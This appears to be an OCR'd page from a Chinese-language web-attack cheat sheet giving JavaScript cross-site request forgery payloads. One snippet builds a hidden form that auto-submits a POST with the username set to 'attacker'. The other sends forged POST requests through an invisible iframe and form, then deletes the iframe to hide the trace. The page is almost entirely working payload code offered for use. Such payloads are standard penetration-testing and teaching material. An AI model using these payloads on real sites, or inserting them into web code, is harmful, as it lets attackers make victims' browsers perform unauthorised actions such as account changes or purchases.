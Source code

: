 ```js
var form = document.createElement("form");
var input = document.createElement("input");

form.style.display = "none";
form.setAttribute("method", "POST");
form.setAttribute("action", "http://<DOMAIN>.com/track");

input.name = "username";
input.value = "attacker";

form.appendChild(input);
document.getElementsByTagName("body")[0].appendChild(form);

form.submit();
```

### 多 POST 请求

```js
function requestWithoutAjax(url, params, method) {
  params = params || {};
  method = method || "post";

  // function to remove the iframe
  var removeIframe = function(iframe) {
    iframe.parentElement.removeChild(iframe);
  };

  // make a iframe...
  var iframe = document.createElement("iframe");
  iframe.style.display = "none";

  iframe.onload = function() {
    var iframeDoc = this.contentWindow.document;

    // Make a invisible form
    var form = iframeDoc.createElement("form");
    form.method = method;
    form.action = url;
    iframeDoc.body.appendChild(form);

    // pass the parameters
    for (var name in params) {
      var input = iframeDoc.createElement("input");
      input.type = "hidden";
      input.name = name;
      input.value = params[name];
      form.appendChild(input);
    }

    form.submit();
    // remove the iframe
    setTimeout(function() {
      removeIframe(iframe);
    }, 500);
  };

  document.body.appendChild(iframe);
}

requestWithoutAjax("url/to", { id: 2, price: 2.5, lastname: "Gamez" });
```
